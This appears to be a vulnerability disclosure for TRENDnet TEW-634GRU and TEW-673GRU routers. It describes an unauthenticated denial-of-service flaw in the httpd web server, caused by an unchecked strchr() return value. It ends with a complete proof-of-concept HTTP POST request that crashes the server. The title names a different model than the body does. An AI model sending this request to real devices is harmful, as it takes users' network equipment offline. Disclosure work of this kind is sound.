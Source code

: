 # TEW-652BRP

## Firmware version
TEW-634GRU devices trhough 1.01b14
TEW-673GRU devices through 1.00b40

firmware download url: 
https://downloads.trendnet.com/tew-634gru/firmware/tew-634gruv1_(fw1.01b14).zip
https://downloads.trendnet.com/tew-673gru/firmware/tew-673gru_fw100b40.zip


## Description
Multiple TRENDnet devices can be attacked due to an unauthenticated denial-of-service vulnerability in the httpd web server because the URL path processing lacks a check on strchr return value.

## Detail
The vulnerability is located in the `httpd_main` function of the `httpd` web server of affected devices.

The vulnerable code directly access the returned string pointer of `strchr()` function call, which can be nullable. Consequently, an attacker can construct a URL path that does not contain the expected character `.` to trigger the vulnerability.

The following is the vulnerable code:

![vulnerable_code](soap_action_overflow.png)

We've constructed a PoC to successfully trigger the vulnerability, which led to a crash in the web server:

```txt
POST /vct_lan_00 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36
Content-Type: 104
Content-Length: 49

html_response_page=wzqwzqwzq&p_default_key=
```
